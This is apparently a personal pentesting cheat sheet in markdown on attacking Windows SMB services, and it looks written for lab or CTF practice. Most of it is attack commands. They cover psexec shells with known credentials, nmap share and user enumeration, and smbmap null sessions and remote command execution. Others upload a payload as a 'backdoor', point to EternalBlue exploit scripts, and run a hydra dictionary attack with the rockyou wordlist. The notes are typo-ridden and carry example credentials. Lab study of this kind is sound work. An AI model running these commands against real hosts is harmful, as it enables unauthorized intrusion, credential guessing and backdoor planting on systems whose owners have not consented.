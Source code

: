 ```yaml
---
title: 'SMB (Server Message Block)'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'smb']
---
```


## Information

- It's a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).

- Uses port 445(TCP). SMB ran on top of NetBIOS using port 139.

- Samba is an open source Linux implementation of SMB, and alllows Windows systems to access Linux shres and devices

## Exploit

knowing creds.

```bash
psexec.py Administrator@target cmd.exe
```

### Windows Discover and mount

How to mount in powershell:

```bash
# Clear the stored session
net use * /delete

# Mount the target folder
net use Z: \\10.4.17.133\C$ smbserver_771 /user:administrator
```

### SMB Windows Recon: Nmap scripts

```bash
$nmap target
135/tcp   open    msrpc
139/tcp   open    netbios-ssn
445/tcp   open    microsoft-ds

# list the supported protocols and dialects of an SMB server
$nmap -p445 --script smb-protocols target
...

# information about the SMB security level.
$nmap -p445 --script smb-security-mode target
...(but defult usually makes good )
... acc

# with creds discover sensitive information
$nmap -p445 --script smb-enum-sessions target
...

# In case guest login is not enabled we can always use valid credentials of the target machine to discover the same information

$nmap -p445 --script smb-enum-sessions --script-args
...smbusername=administrator,smbpassword=smbserver_771 target

$nmap -p445 --script smb-enum-sessions target --script-args smbusername=administrator,smbpassword=smbserver_771 target
...

$nmap -p445 --script smb-enum-shares target
...

$nmap -p445 --script smb-enum-shares target --script-args
...smbusername=administrator,smbpassword=smbserver_771 target

$nmap smb-enum-users 'same as above'

$nmap smb-server-stats 'same as above'

$nmap smb-enum-domains 'same as above'

$nmap smb-enum-groups 'same as above'

$nmap smb-enum-services 'same as above'

# Enumerate folders and list them
$nmap smb-enum-shares,smb-ls 'same as above'

```

### smbmap Recon

```bash
# NULL SESSION - user, pass, directory, host
smbmap -u guest -p "" -d . -H target

# Remote code execution :D!
smbmap -u administrato -p "" -d . -H target -x 'ipconfig'

smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -L

# connect to C drive
smbmap -u administrato -p "" -d . -H target -x 'ipconfig' -r 'C$'

# upload file
smbmap -u Administrator -p "smbserver_771" -H target -d --upload '/root/payload' 'C$\backdoor'

# download file
smbmap -u Administrator -p "smbserver_771" -H target --download 'C$\flag.txt'

```

### SMBClient - ftp-like client to access SMB/CIFS resources on servers.

Windows 7 y smb puede ser un Eternalblue.

-> AutoBlue-Ms17-010

1: eternal_checker.py target
2: proxychains python2.7 zzz_exploit.py target

```bash
$nmbloopup -A taget

$rpcclient -U "" -N target

# If we see IPC$ maybe null session works
$smbclient -L target -N

...-h
...enumerate

######################################
# Despues de montar podemos ver en ls -lsa /media/k_share
sudo mount.cifs //target/c /media/k_share user=,pass=

# Dictionary attack

hydra -l admin -P /usr/share/wordlist/rockyou.txt target smb

#if discover pass
smbmap -H target -u admin -p password1

# pivot
$smbclient -L target -U jane
or
$smbclient //target/jane -U jane

#other way to find users:
$enum4linux -r -u "admin" -p "password1" target

```

